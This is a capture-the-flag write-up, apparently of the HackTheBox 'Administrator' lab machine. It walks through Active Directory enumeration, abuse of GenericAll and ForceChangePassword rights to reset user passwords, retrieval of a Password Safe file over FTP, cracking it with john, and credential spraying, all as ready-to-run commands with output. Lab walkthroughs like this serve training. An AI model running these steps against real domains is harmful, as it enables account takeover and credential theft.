# Administrator - Medium Box
We are given a set of credentials to begin with, `Olivia:ichliebedich`, just like the real life Windows Pentesting Environments.

## Nmap scan results

```
sudo nmap -p- -T4 -sVC -oA nmap/administrator -vvv 10.129.68.4
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-23 14:20 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:20
Completed NSE at 14:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:20
Completed NSE at 14:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:20
Completed NSE at 14:20, 0.00s elapsed
Initiating Ping Scan at 14:20
Scanning 10.129.68.4 [4 ports]
Completed Ping Scan at 14:20, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:20
Completed Parallel DNS resolution of 1 host. at 14:20, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 14:20
Scanning 10.129.68.4 [65535 ports]
Discovered open port 139/tcp on 10.129.68.4
Discovered open port 53/tcp on 10.129.68.4
Discovered open port 135/tcp on 10.129.68.4
Discovered open port 21/tcp on 10.129.68.4
Discovered open port 445/tcp on 10.129.68.4
Discovered open port 55333/tcp on 10.129.68.4
Discovered open port 55305/tcp on 10.129.68.4
Discovered open port 49668/tcp on 10.129.68.4
Discovered open port 9389/tcp on 10.129.68.4
Discovered open port 49665/tcp on 10.129.68.4
Discovered open port 49664/tcp on 10.129.68.4
Discovered open port 49667/tcp on 10.129.68.4
Discovered open port 636/tcp on 10.129.68.4
Discovered open port 593/tcp on 10.129.68.4
Discovered open port 64254/tcp on 10.129.68.4
Discovered open port 55313/tcp on 10.129.68.4
Discovered open port 3269/tcp on 10.129.68.4
Discovered open port 49666/tcp on 10.129.68.4
Discovered open port 55310/tcp on 10.129.68.4
Discovered open port 464/tcp on 10.129.68.4
Discovered open port 5985/tcp on 10.129.68.4
Discovered open port 88/tcp on 10.129.68.4
Discovered open port 47001/tcp on 10.129.68.4
Discovered open port 389/tcp on 10.129.68.4
Discovered open port 3268/tcp on 10.129.68.4
Completed SYN Stealth Scan at 14:20, 44.18s elapsed (65535 total ports)
Initiating Service scan at 14:20
Scanning 25 services on 10.129.68.4
Completed Service scan at 14:21, 54.38s elapsed (25 services on 1 host)
NSE: Script scanning 10.129.68.4.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:21
Completed NSE at 14:21, 8.55s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:21
Completed NSE at 14:21, 2.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:21
Completed NSE at 14:21, 0.00s elapsed
Nmap scan report for 10.129.68.4
Host is up, received echo-reply ttl 127 (0.019s latency).
Scanned at 2026-09-23 14:20:00 EDT for 109s
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-09-24 01:19:25Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55305/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
55310/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55313/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55333/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64254/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-09-24T01:20:16
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 27808/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 34951/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 35670/udp): CLEAN (Timeout)
|   Check 4 (port 61305/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 6h58m34s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:21
Completed NSE at 14:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:21
Completed NSE at 14:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:21
Completed NSE at 14:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.59 seconds
           Raw packets sent: 67883 (2.987MB) | Rcvd: 66542 (2.662MB)
```

The nmap scan revealed the domain for the box, `administrator.htb`, so I added it to my `/etc/hosts` file.

```
sudo echo -e '10.129.68.4\tadministrator.htb' >> /etc/hosts
```

## Reconaissance

I tried logging in to the `FTP` service with the credentials that I had, but got no luck. Moving on to `SMB` service, I was able to authenticate using the same credentials.

```
nxc smb 10.129.68.4 -u 'Olivia' -p 'ichliebedich'
SMB         10.129.68.4     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.68.4     445    DC               [+] administrator.htb\Olivia:ichliebedich
nxc smb 10.129.68.4 -u 'Olivia' -p 'ichliebedich' --shares
SMB         10.129.68.4     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.68.4     445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.129.68.4     445    DC               [*] Enumerated shares
SMB         10.129.68.4     445    DC               Share           Permissions            Remark
SMB         10.129.68.4     445    DC               -----           -----------            ------
SMB         10.129.68.4     445    DC               ADMIN$                                 Remote Admin
SMB         10.129.68.4     445    DC               C$                                     Default share
SMB         10.129.68.4     445    DC               IPC$            READ                   Remote IPC
SMB         10.129.68.4     445    DC               NETLOGON        READ                   Logon server share 
SMB         10.129.68.4     445    DC               SYSVOL          READ                   Logon server share 
```

And there were only default shares available on the SMB Server, nothing interesting there. After trying a lot of different ways to find anything that's interesting, I ended up finding out absolutely nothing more than I already knew. Then, I went ahead & tried to use bloodhound to map out the entire active directory domain.

## Using Bloodhound

```
nxc ldap administrator.htb -u olivia -p ichliebedich
LDAP        10.129.68.4     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.68.4     389    DC               [+] administrator.htb\olivia:ichliebedich
nxc ldap administrator.htb --dns-server 10.129.68.4 -u olivia -p ichliebedich --bloodhound -c all
LDAP        10.129.68.4     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.68.4     389    DC               [+] administrator.htb\olivia:ichliebedich 
LDAP        10.129.68.4     389    DC               Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        10.129.68.4     389    DC               Excluded collection methods: 
LDAP        10.129.68.4     389    DC               Bloodhound data collection completed in 0M 8S
LDAP        10.129.68.4     389    DC               Collecting ADCS data (CertiHound)...
LDAP        10.129.68.4     389    DC               Found 0 certificate templates
LDAP        10.129.68.4     389    DC               Found 0 Enterprise CAs
LDAP        10.129.68.4     389    DC               Compressing output into /home/akku/.nxc/logs/DC_10.129.68.4_2026-09-23_152608_bloodhound.zip
```

I, then, copied the bloodhound zip file to my working directory, booted up bloodhound & uploaded the zip file to the server.



I marked the user `Olivia` as owned & went ahead to see the groups of which the user is a member of, & the `Outbound Object Controls`.




The `Outbound Object Controls` mapping revealed that the user `Olivia` has `GenericAll` privilege over the user `Michael`, which means that I can change the password for the user `Michael` by authenticating with the credentials of the user `Olivia`. I marked the user `Michael` as owned as well, & went ahead to see his privileges over the domain as well.




The `Outbound Object Controls` revealead that the user `Michael` can `ForceChangePassword` for the user `Benjamin`. I marked the user `Benjamin` as owned as well & proceeded in the same manner to get more information about the domain as the user `Benjamin`.



The user `Benjamin` had no `Outbound Object Controls` over the domain whatsoever. However, there was one distinction about the user `Benjamin` which separated the user from the other 2 users which I had marked owned, which was the group `Share Moderators` over the domain of which the user was a member of & the other 2 users were not. I went to see the privileges the group has been assigned.



I proceeded to change the password of the user `Michael` first, I referenced the information provided by `Bloodhound` after I click on the edge representing `GenericAll` privileges & expanding the `Linux Abuse` tab, since I'm going to use commands on linux for the exploitation.




```
nxc smb administrator.htb -u michael -p 'P@ssword1!'
SMB         10.129.68.4     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.68.4     445    DC               [-] administrator.htb\michael:P@ssword1! STATUS_LOGON_FAILURE
```

```
net rpc password "michael" "P@ssword1!" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.68.4"
```

```
nxc smb administrator.htb -u michael -p 'P@ssword1!'
SMB         10.129.68.4     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.68.4     445    DC               [+] administrator.htb\michael:P@ssword1!
```

As we can see, the password for the user `michael` has been changed successfully. Now, we can proceed with chaning the password for the user `benjamin` using the credentials of the user `michael`.

```
nxc smb administrator.htb -u benjamin -p 'P@ssword1!'
SMB         10.129.68.4     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.68.4     445    DC               [-] administrator.htb\benjamin:P@ssword1! STATUS_LOGON_FAILURE
```

```
nxc smb administrator.htb -u benjamin -p 'P@ssword1!'
SMB         10.129.68.4     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.68.4     445    DC               [+] administrator.htb\benjamin:P@ssword1!
```

Since I didn't have any more information about the domain, I decided to see if the user `benjamin` had access to the File Transfer Server. Fortunately for me, the user did indeed have access to the FTP server.

```
nxc ftp administrator.htb -u benjamin -p 'P@ssword1!'
FTP         10.129.68.4     21     administrator.htb [*] Banner: Microsoft FTP Service
FTP         10.129.68.4     21     administrator.htb [+] benjamin:P@ssword1!
```

```
ftp administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:akku): benjamin
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||56713|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||56715|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************|   952       12.74 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (10.64 KiB/s)
ftp> mode
usage: mode mode-name
ftp> mode-name
?Invalid command.
ftp> mode help
We only support stream mode, sorry.
ftp> help
Commands may be abbreviated.  Commands are:

!               cr              ftp             macdef          msend           prompt          restart         sunique
$               debug           gate            mdelete         newer           proxy           rhelp           system
account         delete          get             mdir            nlist           put             rmdir           tenex
append          dir             glob            mget            nmap            pwd             rstatus         throttle
ascii           disconnect      hash            mkdir           ntrans          quit            runique         trace
bell            edit            help            mls             open            quote           send            type
binary          epsv            idle            mlsd            page            rate            sendport        umask
bye             epsv4           image           mlst            passive         rcvbuf          set             unset
case            epsv6           lcd             mode            pdir            recv            site            usage
cd              exit            less            modtime         pls             reget           size            user
cdup            features        lpage           more            pmlsd           remopts         sndbuf          verbose
chmod           fget            lpwd            mput            preserve        rename          status          xferbuf
close           form            ls              mreget          progress        reset           struct          ?
ftp> binary
200 Type set to I.
```

I received a warning saying the file might not have transferred correctly since I was transferring files in `ASCII` mode, so I decided to switch the mode to `Binary` mode. However, I renamed the file first, since I had already transferred the file & it is better to keep the file than to delete it, just for future references.

```
mv Backup.psafe3 Backup.psafe3.ascii
```

```
ftp> binary
200 Type set to I.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||56747|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************|   952        8.41 KiB/s    00:00 ETA
226 Transfer complete.
952 bytes received in 00:00 (7.61 KiB/s)
```

Now that I have the password safe file, i.e., `Backup.psafe3`, I just needed to open it. However, the password safe file is generally password protected, so I tried to retrieve the password first.

```
pwsafe2john Backup.psafe3 > psafe_hash.txt
cat psafe_hash.txt 
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

I proceeded to crack the hash by utilizing the `john` tool.

```
john psafe_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:00 DONE (2026-09-23 22:36) 5.263g/s 86231p/s 86231c/s 86231C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And I got the password for the password safe file successfully. Now, I proceeded with opening the password safe file with the tool `passwordsafe` or `pwsafe`.

```
sudo apt install passwordsafe
pwsafe
```




The password safe file revealed 3 more users, namely `alexander`, `emily` & `emma`. Since this is a password safe file, it would contain the password for the users as well. I stored the users in a file which I named `users.txt` & extracted the password for each user & stored it in a separate file which I named `passwords.txt`.

```
cat users.txt
alexander
emily
emma
```

```
cat passwords.txt
UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
UXLCI5iETUsIBoFVTj8yQFKoHjXmb
WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Now, I checked which of these username:password combinations actually work on the domain.

```
nxc smb administrator.htb -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
SMB         10.129.68.4     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.68.4     445    DC               [-] administrator.htb\alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw STATUS_LOGON_FAILURE 
SMB         10.129.68.4     445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
SMB         10.129.68.4     445    DC               [-] administrator.htb\emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur STATUS_LOGON_FAILURE
```

